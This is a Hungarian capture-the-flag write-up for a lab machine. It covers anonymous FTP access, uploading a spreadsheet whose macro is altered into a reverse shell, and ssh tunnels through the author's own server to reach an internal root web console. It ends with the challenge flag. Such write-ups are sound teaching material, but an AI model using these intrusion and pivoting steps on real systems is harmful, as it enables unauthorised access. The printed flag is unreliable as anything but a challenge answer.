

# Tanu local

Tanu the Cat:
10.10.(1-9).11:80
10.10.(1-9).11:21


## Megoldás
Ez egy elég összetett feladat volt, több lépéssel. A weboldalon nem sok mindent találunk.


A másik porton egy FTP figyel, ahová anonymous userként be tudunk lépni:

```
> ftp 10.10.1.11
Connected to 10.10.1.11.
220 hcsc ftpd ready.
Name (10.10.1.11:encse): anonymous
331 Username ok, send password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
229 Entering extended passive mode (|||53585|).
ftp: Can't connect to `10.10.1.11:53585': Connection refused
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 root     root          575 Jul 12 21:20 ftp.py
drwxr-xr-x   2 hcscftp  ftpgroup     4096 Jul 12 21:52 process_result
drwxr-xr-x   2 hcscftp  ftpgroup     4096 Jul 12 21:52 to_process
226 Transfer complete.
ftp> cd to_process
250 "/to_process" is the current directory.
ftp> ls
200 Active data connection established.
125 Data connection already open. Transfer starting.
-rw-r--r--   1 hcscftp  ftpgroup     8765 Jul 12 21:49 test2.ods
226 Transfer complete.
ftp>
```

A `test2.ods` egy OpenDocument Spreadsheet dokumentum, valójában egy zip. Ebben is lehet
makrókat futtatni, és a test2.ods-ben találunk egy előkészített reverse shell exploitot is, 
amit csak a saját címünkre kell alakítani, utána összezippeljük és visszatöltjük egy új néven:

```
put to_process/test3.ods
```

Ezzel kapunk egy reverse shellt, utána már csak ki kell olvasni a flaget egy fileból.

## Root

A gépen fut egy weboldal a 3000-es porton, de túl bonyolult a kódja ahhoz hogy csak azalapján megoldjuk. Jobb ötlet kívülről elérhetővé tenni ssh port forwarddal. Én két lépésben csináltam
közbeiktatva a szerveremet. Csináltam neki egy ideiglenes felhasználót dummy néven, hogy be tudjak lépni.

A megtört gépen egy remote port forward:
```
ssh -R 3000:127.0.0.1:3000 -o StrictHostKeyChecking=no -i dummy_rsa dummy@<IP>
```

A saját gépemen egy local:
```
ssh -L 3000:127.0.0.1:3000 dummy@<IP>
```

Most már meg tudtam nyitni a `http://localhost:3000`-t. A weboldalon egy javascript alapú remote
desktop futott, benne egy root prompttal. 

```
{HCSC};ROoTFl@G[4]!Tanu
```
